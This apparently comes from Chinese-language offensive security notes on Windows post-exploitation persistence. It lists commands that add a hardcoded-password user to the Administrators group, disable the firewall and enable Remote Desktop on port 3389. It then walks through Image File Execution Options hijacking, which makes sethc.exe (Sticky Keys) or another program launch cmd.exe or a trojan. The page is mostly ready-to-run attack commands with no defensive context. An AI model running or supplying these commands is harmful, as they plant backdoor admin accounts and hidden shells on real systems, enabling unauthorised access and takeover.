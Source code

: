 ### 添加用户开3389

```
net user qianxin QanXin.Nb123 /add
net localgroup administrators qianxin /add
netsh firewall set opmode disable
netsh advfirewall show allprofiles
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
netstat -anop tcp | find "3389"
```

### 映像劫持技术

1. 打开注册表计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\	
2. 新建一个项ziye.exe ，右侧新增一个字符串，名字是Debugger	 ![image-20221110140524525](../资源文件/图片/202303251636117.png)
3. 值为要执行的程序`C:\Windows\System32\cmd.exe`(必须是这个这个斜杠)
4. 这个效果就是只要执行任意一个叫做ziye.exe的程序(常用sethc.exe粘滞键)，就会运行cmd.exe
5. 一般可以是cmd，木马等
